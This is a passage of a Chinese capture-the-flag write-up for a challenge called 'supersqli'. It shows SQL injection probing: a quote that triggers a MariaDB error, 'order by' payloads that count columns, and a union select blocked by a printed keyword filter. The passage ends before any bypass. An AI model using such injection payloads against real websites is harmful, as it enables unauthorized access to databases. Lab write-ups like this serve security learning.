 # supersqli

难度系数: 2.0
题目描述：随便注

遇到 `SQL` 题我是有一点点恶感和害怕的, 感觉每题的注射方式都不一样!

尝试一些简单的值: `1'` 返回错误:

`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从 `MariaDB` 我们可以知道这题是 `MYSQL` 注入.

检查 `table` 有 2 `columns`:

```
?inject=1'+order+by+1--+
?inject=1'+order+by+2--+
?inject=1'+order+by+3--+ 返回错误
```

本题也 `filter` 一些字:

```
?inject=1'+union+select+1,2--+
返回: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

